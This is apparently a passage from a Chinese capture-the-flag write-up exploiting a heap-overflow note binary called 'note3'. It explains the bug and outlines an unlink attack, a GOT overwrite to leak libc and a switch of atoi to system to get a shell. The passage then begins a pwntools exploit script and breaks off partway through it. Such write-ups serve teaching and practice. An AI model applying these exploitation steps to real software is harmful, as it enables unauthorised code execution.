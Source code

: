 
可以看到`ptr`所在位置等同于`qword_6020C0[1]`所在位置，所以当`i=7`时分配的块地址保存在`&ptr+7`等同于保存在`qword_6020C0[8]`处，即表示`i=0`块的大小。通过分配`i=7`块可实现`i=0`块大小被新分配块地址覆写，而块地址所代表的大小足够我们溢出到后面的块内。

### Show功能

该功能没什么用，只打印一串字符串。

![](https://img2022.cnblogs.com/blog/2419541/202210/2419541-20221001220852088-2128684943.png)

### Edit功能

如图，主要操作通过注释的方式介绍。

![](https://img2022.cnblogs.com/blog/2419541/202210/2419541-20221001220903298-1920698573.png)

### Delete功能

![](https://img2022.cnblogs.com/blog/2419541/202210/2419541-20221001220910769-1846455939.png)

`qword_6020C0[0]`可以理解为最近操作过的块地址。

漏洞利用
----

漏洞利用思路如下：

**1.unlink**

添加7个块后，再添加一个块(`i=7`)，这时块0的大小会被改的很大(值为块7的地址)，然后在块0中构造fake\_chunk并溢出到下一个块修改header数据实现unlink。需要注意第`i=1`个块时大小要超过fastbin的范围。

**2.泄露地址**

unlink后可以实现任意写。为了泄露函数地址，需要执行输出函数，可以将`free@got`值改为`puts@plt`值，然后将块`i`的地址改为`puts@got`的地址，这时调用删除功能`free(块i)`就可以输出`puts@got`的值，从而得到动态链接库加载地址，进一步得到`system`地址。

**3.getshell**

最后将`atoi@got`值改为`system`地址，然后在选择功能时输入`/bin/sh`即可得到shell。

Expolit
-------

漏洞利用代码如下：

    from pwn import *
    
    p = process('./note3')
    #context.log_level = 'debug'
    
    def new(size,content):
        p.sendlineafter('option--->>','1')
        p.sendlineafter('1024)',str(size))
        p.sendlineafter('content:', content)
        p.recvuntil('\n')
    
    def edit(idx, content):
        p.sendlineafter('option--->>','3')
        p.sendlineafter('note:', str(idx))
        p.sendlineafter('content:', content)
        p.recvuntil('success')
    